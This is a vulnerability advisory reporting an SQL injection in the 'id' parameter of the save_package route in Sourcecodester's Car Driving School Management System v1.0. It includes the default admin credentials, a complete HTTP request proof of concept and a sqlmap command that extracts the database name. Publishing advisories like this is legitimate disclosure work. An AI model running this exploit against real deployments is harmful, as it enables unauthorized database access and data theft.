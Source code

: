 ### SQL injection vulnerability exists in Sourcecodester Car Driving School Management System

official website:https://www.sourcecodester.com/php/15070/car-driving-school-management-system-phpoop-free-source-code.html

version:v1.0

route:/cdsms/classes/Master.php?f=save_package

related code file:Master.php

injection parameter:${'id'}

#### 1.Vulnerability analysis

After receiving the id parameter passed in through the get method in the Master.php file, it is directly spliced into the SQL query statement for execution without any security filtering. An attacker can use this parameter to perform SQL injection to read arbitrary database information.

![image-20240725213419541](assets/image-20240725213419541.png)

#### 2.Vulnerability verification and exploit

After admin/admin123 logs in to the system backend, replace the cookie content in the following POC and save it as 1.txt.Note that you need to modify the deployed IP address, port, and cookie information in the data packet according to the environment.

```
POST /cdsms/classes/Master.php?f=save_package HTTP/1.1
Host: localhost
Content-Length: 623
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryB7VEBVesDWBK38N3
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/cdsms/admin/?page=packages
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_f8cddee34ca21f05373a9388cfdd798b=1721700678; PHPSESSID=32r6u9afm833p0abeg632sl4id
Connection: close

------WebKitFormBoundaryB7VEBVesDWBK38N3
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryB7VEBVesDWBK38N3
Content-Disposition: form-data; name="name"

123
------WebKitFormBoundaryB7VEBVesDWBK38N3
Content-Disposition: form-data; name="description"

123
------WebKitFormBoundaryB7VEBVesDWBK38N3
Content-Disposition: form-data; name="training_duration"

123
------WebKitFormBoundaryB7VEBVesDWBK38N3
Content-Disposition: form-data; name="cost"

120
------WebKitFormBoundaryB7VEBVesDWBK38N3
Content-Disposition: form-data; name="status"

0
------WebKitFormBoundaryB7VEBVesDWBK38N3--

```

python sqlmap.py -r 1.txt --batch --current-db

![image-20240725213222464](assets/image-20240725213222464.png)

Successfully obtained the injected payload and database name.